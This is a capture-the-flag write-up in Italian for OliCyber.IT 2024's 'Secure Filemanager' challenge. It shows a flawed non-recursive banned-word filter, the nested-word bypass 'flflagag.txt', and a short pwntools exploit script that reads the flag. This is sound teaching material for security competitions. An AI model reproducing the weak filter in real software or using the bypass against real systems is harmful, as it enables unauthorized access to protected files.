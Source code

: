 # OliCyber.IT 2024 - Selezione territoriale

## [misc] Secure Filemanager (337 risoluzioni)

Archivio di file rivoluzionario con protezione per i file sensibili

```python
bannedwords = ['flag', 'secret', 'password', 'key']

# The user input is cleaned up from banned words
def cleanup(filename):
  for word in bannedwords:
    filename = filename.replace(word, '')
  return filename
```

`nc secure-filemanager.challs.olicyber.it 38104`

Autore: Giovanni Minotti <@Giotino>

## Soluzione

La funzione `cleanup` è vulnerabile perchè non censura le parole ricorsivamente. Questo signifia che se utilizziamo una parola proibita dentro ad un'altra parola proibita, come `flflagag.txt`, sarà ripulita come `flag.txt`.

## Exploit

```python
#!/usr/bin/env python3

import os
from pwn import *

logging.disable()

HOST = os.environ.get("HOST", "secure-filemanager.challs.olicyber.it")
PORT = int(os.environ.get("PORT", 38104))

with remote(HOST, PORT) as r:
    r.recvuntil(b'Read file: ')
    r.sendline(b'flflagag.txt')
    r.recvline()
    print(r.recvline())
```
